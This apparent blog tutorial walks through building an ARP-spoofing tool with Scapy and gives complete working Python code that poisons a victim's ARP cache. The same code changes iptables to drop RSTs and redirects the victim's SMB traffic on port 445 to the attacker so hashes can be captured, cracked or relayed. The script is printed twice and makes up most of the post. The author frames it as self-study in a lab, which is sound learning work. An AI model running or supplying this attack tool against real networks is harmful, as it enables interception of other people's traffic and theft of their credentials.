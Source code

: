 ```yaml
---
published: true
---
```

## HowTo ARP Spoof Using Scapy

Sure there are already some pretty good security tools that can pull off ARP spoofing: Ettercap, Bettercap, etc. This post details what I learned when I wanted to do it myself using Scapy, in the hopes that I can help someone else who's also trying to learn how to use Scapy. After a while you get tired of using other people's tools and want to learn how to do it yourself, even if you're just creating yet another tool to do 'X', at least you're learning something new.

Man In The Middle (MITM) attacks against a whole subnet frequently cause a Denial of Service (DoS) condition. In this case, I want to ARP spoof a single victim and redirect any SMB traffic to my attacker system so that I can capture or relay hashes. 

In my lab, my victim was running a fully patched Windows 10 OS. I monitored my arp table using 'arp -a'. In the interest of saving some time and not having to run an extended ARP spoof attack, I cleared my victim's ARP cache using 'arp -d *' before starting the attack.

First, our imports and argument parser. Using sys.argv[] for command line arguments is just clunky. I like to use argparser even in really short scripts that accept cli arguments.

```python
from scapy.all import *
import os
import sys
import argparse

# Add arguments
parser = argparse.ArgumentParser(description='ScapyArpSpoof.py - ARP spoof a victim and redirect their SMB traffic to a local SMB listener to capture or relay hashes.')
parser.add_argument("victim_IP", help="Victim IP address.")
parser.add_argument("interface", help="Network interface name")
parser.add_argument("target_IP", help="Gateway or target IP address. Must be on the same broadcast domain as the attacker and victim.")
args = parser.parse_args()
```

Now we need to set some iptables rules and also enable IP forwarding. The first iptables rule prevents the kernel from seeing traffic that didn't originate from the kernel and sending a RST, which would kill our connection. The ip_forward is necessary, otherwise you'll DoS the victim that you're attacking because your system will intercept their comms but won't forward traffic on to the destination. The final iptables argument is required to forward any SMB traffic on to our attacker's IP address on port 445 so that we can either capture the hash and crack it, or relay it on using tools such as Metasploit, Responder, or other SMB relay tools.

```python
# Prevent kernel from interfering and sending RST's.
os.system("iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP")
# Enable forwarding so that we don't cause a DoS.
os.system("echo 1 > /proc/sys/net/ipv4/ip_forward")
# Redirect SMB traffic between victim and target to our IP address.
os.system("iptables -t nat -A PREROUTING -p tcp --dport 445 -j DNAT --to-destination {}:445".format(get_if_addr(args.interface)))
```

This section creates the variables required for ARP. Hopefully I've commented the code well enough as-is to make it self-explanatory. The reason why you need a victim IP and a target IP is that in this case we're targetting a single victim and don't want to risk making ourselves known and risk DoS'ing a whole subnet. Very frequently a MiTM attack causes service disruptions, so I don't want to target a whole subnet. The target IP is either going to be the system that the victim is communicating with on the same subnet, or the default gateway (router) if on a different network subnet. Adjust the send arguments 'inter' and 'count' if you want to spoof more or less than a count of 60 here, which works out to one request per second for 60 seconds.

```python
# Create Arp args.
a = ARP()
a.pdst = args.victim_IP
a.hwsrc = get_if_hwaddr(args.interface) #attacker MAC address
a.psrc = args.target_IP
a.hwdst = "ff:ff:ff:ff:ff:ff"
send(a, inter=1, count=60)
```

Finally, we're going to clean up those iptables rules and reset IP forwarding to the default.

```python
# Restore iptables and /proc/sys/net/ipv4/ip_forward.
os.system("iptables -D OUTPUT -p tcp --tcp-flags RST RST -j DROP")
os.system("echo 0 > /proc/sys/net/ipv4/ip_forward")
os.system("iptables -t nat -D PREROUTING -p tcp --dport 445 -j DNAT --to-destination {}:445".format(get_if_addr(args.interface)))
```

Complete code:

```python
from scapy.all import *
import os
import sys
import argparse

# Add arguments
parser = argparse.ArgumentParser(description='ScapyArpSpoof.py - ARP spoof a victim and redirect their SMB traffic to a local SMB listener to capture or relay hashes.')
parser.add_argument("victim_IP", help="Victim IP address.")
parser.add_argument("interface", help="Network interface name")
parser.add_argument("target_IP", help="Gateway or target IP address. Must be on the same broadcast domain as the attacker and victim.")
args = parser.parse_args()

# Prevent kernel from interfering and sending RST's.
os.system("iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP")
# Enable forwarding so that we don't cause a DoS.
os.system("echo 1 > /proc/sys/net/ipv4/ip_forward")
# Redirect SMB traffic between victim and target to our IP address.
os.system("iptables -t nat -A PREROUTING -p tcp --dport 445 -j DNAT --to-destination {}:445".format(get_if_addr(args.interface)))

# Create Arp args.
a = ARP()
a.pdst = args.victim_IP
a.hwsrc = get_if_hwaddr(args.interface) #attacker MAC address
a.psrc = args.target_IP
a.hwdst = "ff:ff:ff:ff:ff:ff"
send(a, inter=1, count=60)

# Restore iptables and /proc/sys/net/ipv4/ip_forward.
os.system("iptables -D OUTPUT -p tcp --tcp-flags RST RST -j DROP")
os.system("echo 0 > /proc/sys/net/ipv4/ip_forward")
os.system("iptables -t nat -D PREROUTING -p tcp --dport 445 -j DNAT --to-destination {}:445".format(get_if_addr(args.interface)))
```
